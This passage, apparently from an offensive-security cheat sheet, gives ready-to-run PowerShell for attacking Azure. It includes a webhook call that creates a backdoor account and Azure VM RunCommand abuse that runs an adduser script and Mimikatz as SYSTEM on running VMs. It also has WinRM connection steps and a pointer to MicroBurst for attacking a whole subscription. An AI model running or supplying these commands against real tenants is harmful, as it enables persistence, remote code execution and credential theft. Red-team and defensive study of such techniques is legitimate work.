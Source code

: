     ```powershell
    $uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
    $AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
    $body = ConvertTo-Json -InputObject $AccountInfo
    $response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
    ```
    
    ⧉ Copied!
    

## Virtual Machine RunCommand

Requirements:

- `Microsoft.Compute/virtualMachines/runCommand/action`

```powershell
# Get Public IP of VM : query the network interface
PS AzureAD> Get-AzVM -Name <RESOURCE> -ResourceGroupName <RG-NAME> | select -ExpandProperty NetworkProfile
PS AzureAD> Get-AzNetworkInterface -Name <RESOURCE368>
PS AzureAD> Get-AzPublicIpAddress -Name <RESOURCEIP>

# Execute Powershell script on the VM
PS AzureAD> Invoke-AzVMRunCommand -VMName <RESOURCE> -ResourceGroupName <RG-NAME> -CommandId 'RunPowerShellScript' -ScriptPath 'C:\Tools\adduser.ps1' -Verbose

# Connect via WinRM
PS C:\Tools> $password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
PS C:\Tools> $creds = New-Object System.Management.Automation.PSCredential('username', $Password)
PS C:\Tools> $sess = New-PSSession -ComputerName <IP> -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
PS C:\Tools> Enter-PSSession $sess
```

⧉ Copied!

> Allow anyone with "Contributor" rights to run PowerShell scripts on any Azure VM in a subscription as NT Authority\\System

```powershell
# List available VMs
PS C:\> Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
ResourceGroupName    Name       
-----------------    ----       
TESTRESOURCES        Remote-Test

# Execute Powershell script on the VM
PS C:\> Invoke-AzureRmVMRunCommand -ResourceGroupName TESTRESOURCES -VMName Remote-Test -CommandId RunPowerShellScript -ScriptPath Mimikatz.ps1
```

⧉ Copied!

Against the whole subscription using MicroBurst.ps1
